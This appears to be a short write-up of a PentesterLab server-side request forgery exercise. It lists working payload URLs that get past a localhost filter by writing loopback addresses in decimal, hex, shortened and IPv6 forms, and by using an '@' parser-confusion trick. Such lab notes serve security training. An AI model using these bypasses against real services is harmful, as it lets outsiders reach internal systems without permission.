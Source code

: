 #### 4.1. SSRF 3 (Pentesterlab)

Failed attempts:
```
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://localhost:1234 (Invalid URL)
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://127.0.0.1:1234 (Invalid URL)
```

Solution is to re-write `localhost` IP address under different formats.

Decimal IP - converts to `0.0.0.0`:
```
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://0:1234
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://0x00:1234
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://0000:1234
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://00000000000000000000:1234
```

Decimal IP - converts to `127.x.x.x`:
```
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://2130706433:1234
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://127.1:1234
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://127.127.127.127:1234
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://127.0.0.0:1234
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://127.x.y.z:1234
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://127.1.1.1:1234\@@127.2.2.2:1234/
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://0x7F000001:1234
```

Other:
```
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://0.0.0.0:1234
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://172.17.0.56:1234
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://645dfd9b516b:1234 - where `645dfd9b516b` is the hostname
```

IPV6
```
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://[::1]:22
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=http://[0:0:0:0:0:FFFF:7F00:0001]:22
http://ptl-a0218fff-f52ba07b.libcurl.so/?url=https://[2604:1380:1000:af00::1]
```
